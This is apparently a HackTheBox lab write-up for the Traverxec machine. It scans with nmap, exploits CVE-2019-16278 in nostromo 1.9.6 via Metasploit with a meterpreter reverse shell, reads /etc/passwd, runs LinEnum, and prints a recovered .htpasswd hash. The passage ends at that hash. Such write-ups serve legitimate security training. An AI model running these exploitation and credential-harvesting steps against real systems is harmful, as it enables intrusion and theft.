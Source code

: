 ```yaml
---
layout: post
author: Mariano M
---
```


---

## Traverxec - 10.10.10.165

This was one of the first machines that I exploited in my beginnings in HackTheBox so lets start.

##### nmap scan

First of all is to do an nmap, to do a scan of open ports, for this step I have used nmap command followed by several options to get better search results. Finally, add -oN "filename.txt" to save the output in a text file for later review.

```console
root@kali:~# nmap -sV -A – v -oN nmap_10.10.10.165 10.10.10.165
# nmap 7.80 scan initiated Wed Mar 25 11:25:01 2020 as: nmap -A -sV -oN HTB/nmap_10.10.10.165 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.052s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
| 2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
| 256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_ 256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open http nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
...
TRACEROUTE (using port 80/tcp)
HOP RTT ADDRESS
1 52.11 ms 10.10.14.1
2 52.20 ms 10.10.10.165
# Nmap done at Wed Mar 25 11:25:19 2020 -- 1 IP address (1 host up)
scanned in 18.83 seconds
```
Once obtained the result of the nmap scan you can observe that it has the port 22/tcp open with the SSH service in its version 9.7 working, also that it has the port 80 open. It calls my attention that the web server is not that common, it is a Nostromo 1.9.6, which makes me suspect something strange. I save the information and begin to investigate about that web server.

##### Analysis of nosotromo 1.9.6

The next thing we found for this version of nostromo
is that has a vulnerability that was found in Nostromo nhttpd up to 1.9.6 (Web Server) and
classified as critical. The http_verify function is affected by this vulnerability. Through
manipulation as part of HTTP Request leads to a directory vulnerability
traversal. This has an impact on confidentiality, integrity, and availability. The
vulnerability is identified as CVE-2019-16278 and the exploitation is considered easy. By
therefore, I repeat the last process in metasploit, but this time I just look out for nostromo with the search command.

```console
root@kali:~# msfconsole
[-] ***rting the Metasploit Framework console...\
[-] * WARNING: No database support: No database YAML file
[-] ***
=[ metasploit v5.0.80-dev ]
+ -- --=[ 1983 exploits - 1088 auxiliary - 339 post ]
+ -- --=[ 559 payloads - 45 encoders - 10 nops ]
+ -- --=[ 7 evasion ]
Metasploit tip: Enable verbose logging with set VERBOSE true
msf5 > search nostromo

Matching Modules
================

# Name 		Disclosure 		Date 	   Rank
Check Description
- ---- --------------- ---- --
--- -----------
0 exploit/multi/http/nostromo_code_exec 2019-10-20 good
Yes Nostromo Directory Traversal RemoteCommandExecution
```
Lets start using this exploit and modify the options.

```console
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > options
Module options (exploit/multi/http/nostromo_code_exec):
Name 	Current Setting Required Description
---- 	--------------- -------- -----------
Proxies no A proxy chain of format
type:host:port[,type:host:port][...]
RHOSTS 		yes 	The target host(s), range CIDR
identifier, or hosts file with syntax 'file:<path>
RPORT 80 	yes 	The target port (TCP)
SRVHOST 0.0.0.0 yes 	The local host to listen on.
This must be anaddress on the local machine or 0.0.0.0
SRVPORT 8080 	yes 	The local port to listen on.
SSL false no Negotiate SSL/TLS for
outgoingconnections
SSLCert 	no 	Path to a custom SSL certificate
(default is randomlygenerated)
URIPATH 	no 	The URI to use for this exploit
(default is random)
VHOST 		no 	HTTP server virtual host

Payload options (cmd/unix/reverse_perl):


Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 		yes 	The listen address (an interface
may be specified)
LPORT 4444 	yes 	The listen port

Exploit target:

Id Name
-- ----
0 Automatic (Unix In-Memory)
```
In this case you only have to put the rhosts in 10.10.10.165 which is the machine to attack and also use the target 1 set.

```console
msf5 exploit(multi/http/nostromo_code_exec) > set rhosts 10.10.10.165
rhosts => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
```
Finally, for the exploit to work correctly we have to load a payload to get a reverse console in meterpreter to obtain a remote shell in the victim machine.
For this step we have to use the LHOST which is the ip of the computer where the console is going to be opened, the ip that vpn has given us to be on the same network.

```console
msf5 exploit(multi/http/nostromo_code_exec) > set payloadlinux/x86/meterpreter/reverse_tcp

payload => linux/x86/meterpreter/reverse_tcp

msf5 exploit(multi/http/nostromo_code_exec) > set lhost 10.10.14.238
lhost => 10.10.14.238
```
Now lets run the exploit

```console
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.238:4444
[*] ConfiguringAutomatic (Linux Dropper) target
[*] Sendinglinux/x86/meterpreter/reverse_tcpcommandstager
[*] Sendingstage (989416 bytes) to 10.10.10.165
[*] Meterpreter session 1 opened (10.10.14.238:4444 -> 10.10.10.165:37220) at 2020-03-26 20:34:43 +0100
[*] CommandStagerprogress - 100.00% done (763/763 bytes)
meterpreter >
```
We can see that a session has been created, now we are inside the machine. Now open a shell and test any command. 
We can see that we have connected to the machine with the user www-data and
that we are in the /usr/bin folder.

```console
meterpreter > shell
Process 999 created.
Channel 1 created.
whoami
www-data

pwd
/usr/bin
```
Now, we will do a cat on passwd file to find system users.

```console
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
david:x:1000:1000:david,,,:/home/David:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

##### execute linenum.sh script and analyze

You can find the LinEnum.sh here: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh.

Upload the script to the machine with meterpreter.

```console
meterpreter > upload LinEnum.sh
[*] Uploading: LinEnum.sh -> LinEnum.sh
[*] Uploaded 45.54 KiB of 45.54 KiB (100.0%): LinEnum.sh -> LinEnum.sh
[*] upload : LinEnum.sh -&gt; LinEnum.sh
meterpreter >
```

Launch the script and analyze every line.

After reading a lot of lines that the script found on the system, like superusers, crontabs, etc. I have found an .htpasswd file with a password hash of the user David.

```console
[-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
David:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
